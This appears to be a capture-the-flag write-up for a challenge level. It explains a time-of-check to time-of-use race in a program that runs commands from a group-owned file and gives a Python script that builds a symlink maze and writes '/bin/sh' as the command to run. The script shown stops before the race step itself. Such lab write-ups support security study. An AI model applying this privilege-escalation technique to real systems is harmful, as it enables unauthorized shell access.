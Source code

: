 We can see that, the program accepts a filename as argument. Then it checks if the file exists and then opens it for reading if its owned by the group `lev5`. We can see that there is a file called `5.cmd` which is owned by group `lev5` in the same directory. Once the file is opened, it executes the commands given in the file one by one.

Since there is a gap between checking if the file exists and opening the file for reading, we can take advantage of time-of-check to time-of-use (TOCTOU) bug to exploit the program. We can use a symlink maze to create a race condition to exploit the program.

The basic building block of a maze is a chain, defined to be (nearly) the deepest nested directory tree one can define without violating the PATH_MAX constraint imposed by the kernel on the length of file paths (4KB is a typical value). Thus, `chain0` would be `chain0/d/d/d/.../d` such that the associated number of characters is a bit less than PATH_MAX. Likewise, `chain1` is `chain1/d/d/d/.../d`, etc.

To form a maze, the we connect chains by placing a symbolic link at the bottom of chain `i+1` that points to chain `i`. The final symlink, at the bottom of `chain n`, points to an exit symlink which, in turn, points to the actual target file. Finally, the entry point to the maze, `evil`, is a symlink pointing to the first chain.

While the program is resolving the symlink, we swap out the first symlink to our target file containing commands to start a shell. This can be achieved using the following python script.

```python
import os
import time
from pwn import process

TARGET_COMMAND = "/var/challenge/level5/5.cmd"
TARGET_EXECUTABLE = "/var/challenge/level5/5"
LINK_NAME = "symlink"
EVIL_LINK_NAME = 'evil'
MAZE_PATH = os.getcwd() + "/maze/"

DICT = "abcdefghijklmnopqrstuvwxyz"
MAZE_DEPTH = 2000

# Creation of the maze
print("Creating symlink maze")
# Two loops are used here because python has a max recursion limit of 1000
steps = set(range(900, MAZE_DEPTH, 900))
steps.add(MAZE_DEPTH)
for i in sorted(steps):
    for char in DICT:
        subdir = (char + "/") * i
        os.makedirs(MAZE_PATH + subdir, exist_ok=True)

# Linking the last symlink to the target 5.cmd file in /var/challenge/level5
subdir = (DICT[-1] + "/") * MAZE_DEPTH
os.symlink(TARGET_COMMAND, MAZE_PATH + subdir + LINK_NAME)
last_dir = subdir

# Linking each subdirectory to the next one
for char in reversed(DICT[:-1]):
    subdir = (char + "/") * MAZE_DEPTH
    os.symlink(MAZE_PATH + last_dir + LINK_NAME, MAZE_PATH + subdir + LINK_NAME)
    last_dir = subdir

# Creating the target link to be used as parameter for the program and linking it to the first link in the chain
os.symlink(MAZE_PATH + ("a" + "/") * MAZE_DEPTH + LINK_NAME, MAZE_PATH + LINK_NAME)

# Creating a file with the command to start a shell
print("/bin/sh", file=open(MAZE_PATH + EVIL_LINK_NAME, 'a'))

print("Starting exploit")
```